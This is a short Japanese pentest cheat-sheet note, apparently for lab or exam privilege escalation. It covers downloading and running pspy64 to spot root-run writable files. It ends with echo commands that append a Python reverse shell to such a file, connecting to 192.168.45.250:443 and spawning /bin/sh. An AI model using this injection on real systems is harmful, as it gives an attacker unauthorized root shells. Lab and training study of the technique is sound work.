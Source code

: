 # pspy64

* サイト

  https://github.com/DominicBreuker/pspy

* 実行

  ```
  wget http://192.168.45.237:443/pspy64 -O pspy64
  chmod +x pspy64
  ./pspy64
  ```

* UID=0で修正権限のあるファイルが実行されていないか。(1分毎くらいで結果が更新されていく)

  ![image-20230401100315653](img/pspy64/image-20230401100315653.png)

* 怪しいプロセスがあればリバースシェルを注入する

  ※ pythonで注入した例

  ```bash
  echo "import socket,os,pty" >> asinfo
  echo "" >> asinfo
  echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> asinfo
  echo 's.connect(("192.168.45.250",443))' >> asinfo
  echo "os.dup2(s.fileno(),0)" >> asinfo
  echo "os.dup2(s.fileno(),1)" >> asinfo
  echo "os.dup2(s.fileno(),2)" >> asinfo
  echo 'pty.spawn("/bin/sh")' >> asinfo
  ```

  